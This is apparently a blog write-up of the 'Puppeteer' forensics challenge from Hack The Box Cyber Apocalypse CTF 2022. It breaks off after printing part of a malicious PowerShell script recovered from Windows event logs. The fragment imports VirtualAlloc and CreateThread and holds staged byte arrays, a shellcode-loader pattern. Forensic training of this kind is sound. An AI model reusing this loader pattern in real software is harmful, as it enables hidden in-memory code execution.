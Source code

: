 ```yaml
---
title: Hack The Box Cyber Apocalypse CTF 2022 (RE and Forensics) writeups
date: 2022-05-22 00:00:00 +0000
categories: [CTF writeups, Reverse Engineering, Forensics]
tags: [ctf, writeup, Hack The Box, forensics, reverse engineering]
media_subpath: /assets/img/posts/ctf-writeups/htbcactf2022/
image:
    path: htbca22-logo.png
---
```


## __Forensics__

### __Puppeteer__

__Challenge Info__

> Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000, a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.

For this challenge we get a folder with Windows Event Log files (.evtx).

The first thing we should do is analyze all the Log files to see if we can catch any useful information. To do that we will use the [Windows Event Viewer app](https://docs.microsoft.com/en-us/shows/inside/event-viewer "Event Viewer").

In the description of one of the warnings in the `Microsoft-Windows-PowerShell%4Operational.evtx` file we have a powershell script that was created to run some code.

![puppeteer1](puppeteer1.png)
_Powershell script in Microsoft-Windows-PowerShell%4Operational.evtx file_

The complete powershell script that we get from the Windows Event Log file above is the following:

```powershell
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

```